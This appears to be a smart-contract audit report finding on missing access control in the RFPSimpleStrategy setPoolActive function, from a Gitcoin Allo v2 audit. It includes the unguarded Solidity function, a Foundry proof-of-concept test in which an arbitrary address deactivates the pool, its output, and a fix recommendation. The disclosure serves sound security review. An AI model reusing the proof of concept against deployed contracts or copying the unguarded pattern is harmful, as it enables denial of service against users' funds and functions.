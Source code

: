 Mammoth Aquamarine Wallaby

medium

# M-03 Potential DoS due to missing access control on `setPoolActive` in the RFPSimplestrategy contract.
## Summary
The missing access control on the `setPoolActive` can cause DoS of contract.
## Impact
Anyone can set to Pool to be active or inactive at any time allowing for DoS or function calls which should not be allowed.
## Vulnerability Detail
Confirmed with sponsor, there should be access control on the function. The duration of the attack may be continuous as there may be malicious MEV Bots that would front-run calls and switch the contract active status based on function selectors. This would effectively render all major functions of the contract unusable, eg. `register`,`allocate`, `withdraw` and `distribute` as they require certain active states in the contract.

## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L216-L222

```solidity
/// @notice Toggle the status between active and inactive.
    /// @dev 'msg.sender' must be a pool manager to close the pool. Emits a 'PoolActive()' event.
    /// @param _flag The flag to set the pool to active or inactive
    function setPoolActive(bool _flag) external {
        _setPoolActive(_flag);
        emit PoolActive(_flag);
    }
```

## PoC
Copy/Paste this test function in the `RFPSimpleStrategy.t.sol` file in the `test/foundry/strategies/` directory:
```solidity
function test_setActivebyAnyone() public {
        RFPSimpleStrategy testStrategy = new RFPSimpleStrategy(address(allo()), "RFPSimpleStrategy");
        vm.startPrank(address(allo()));
        testStrategy.initialize(1337, abi.encode(maxBid, useRegistryAnchor, metadataRequired));
        console.log("[+] testStrategy is initialized");
        console.log("[+] Current active status of testStrategy : ", testStrategy.isPoolActive());
        vm.stopPrank();
        vm.startPrank(address(9999999999999999999999));
        console.log("[+] Call the setPoolActive to false with: ");
        console.log("    vm.startPrank of random addess address(9999999999999999999999)");
        testStrategy.setPoolActive(false);
        vm.stopPrank();
        console.log("[+] Current active status of testStrategy : ", testStrategy.isPoolActive());

    }
```
## Output
```text
Running 1 test for test/foundry/strategies/RFPSimpleStrategy.t.sol:RFPSimpleStrategyTest
[PASS] test_setActivebyAnyone() (gas: 2535904)
Logs:
  [+] testStrategy is initialized
  [+] Current active status of testStrategy :  true
  [+] Call the setPoolActive to false with: 
      vm.startPrank of random addess address(9999999999999999999999)
  [+] Current active status of testStrategy :  false

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.21ms
```
Run forge test 
```text
forge test --match-contract RFPSimpleStrategyTest --match-test test_setActivebyAnyone -vv
```
## Tool used

Manual Review

## Recommendation
Add modifier to limit which callers can call the function and at which stages.
